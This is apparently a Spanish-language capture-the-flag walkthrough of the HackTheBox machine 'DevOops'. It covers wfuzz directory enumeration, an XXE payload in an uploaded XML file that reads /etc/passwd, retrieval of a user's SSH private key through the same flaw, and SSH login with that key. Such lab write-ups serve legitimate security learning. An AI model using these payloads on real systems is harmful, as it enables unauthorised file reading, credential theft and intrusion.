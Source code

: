 # 10.10.10.91 - DevOops
-----------------------

PUertos abiertos 22(ssh), 5000

```console
└─$ curl -s http://10.10.10.91:5000
Under construction!
This is feed.py, which will become the MVP for Blogfeeder application.
TODO: replace this with the proper feed from the dev.solita.fi backend.
[/feed]

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.91:5000/FUZZ/'
000000347:   200        0 L      39 W       347 Ch      "upload"                                             
000000112:   200        1815 L   24122 W    517022 Ch   "feed"
└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.91:5000/FUZZ.php'
# Nada
└─$ wfuzz -c --hw=31 -w $(locate subdomains-top1million-5000.txt) -H "Host: FUZZ.10.10.10.91:5000" -u http://10.10.10.91:5000/ -t 100
# Tampoco
```

**/feed** -> nos muestra la misma foto que salia en el puerto 5000

En **/uploads** nos piden un xml pero da "Internal server error"

```xml
<?xml version="1.0" encoding="UTF-8"?>
<elements>
    <Author>William Gibson</Author>
    <Subject>Cyberpunk</Subject>
    <Content>Neuromante</Content>
</elements>
```
```
PROCESSED BLOGPOST: Author: William Gibson Subject: Cyberpunk Content: Neuromante 
URL for later reference: /uploads/test.xml File path: /home/roosa/deploy/src
```
Esto nos leakea el lugar donde se sube y una ruta/usuario del sistema "roosa"

Si subimos un XML "muy especial" (inyeccion XXE)
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<elements>
    <Author>&xxe;</Author>
    <Subject>Cyberpunk</Subject>
    <Content>Neuromante</Content>
</elements>
```
Conclusión: Usarios -> root git y roosa

Como sabemos que existe el usuario roosa, podemos pedir su llave ```/home/roosa/.ssh/id_rsa```
Y 

```console
└─$ ssh -i id_rsa roosa@10.10.10.91
```

```
roosa@devoops:~$ cat run-blogfeed.sh
#/bin/bash

# TODO: replace with better script and run as blogfeed user which is restricted

cd /home/roosa/work/blogfeed/src
../run-gunicorn.sh
```


- Archivos que llaman la atencion: /home/roosa/deploy/src/app.py~ /home/roosa/service.sh 
La "~" significa backup, con diff vemos las diferencias...
```console
roosa@devoops:/tmp$ diff <(cat /home/roosa/deploy/src/app.py~) <(cat /home/roosa/deploy/src/app.py)
<   run_gunicorn_app("0.0.0.0", 5000, True, )
>   run_gunicorn_app("0.0.0.0", 5000, True, None)
```






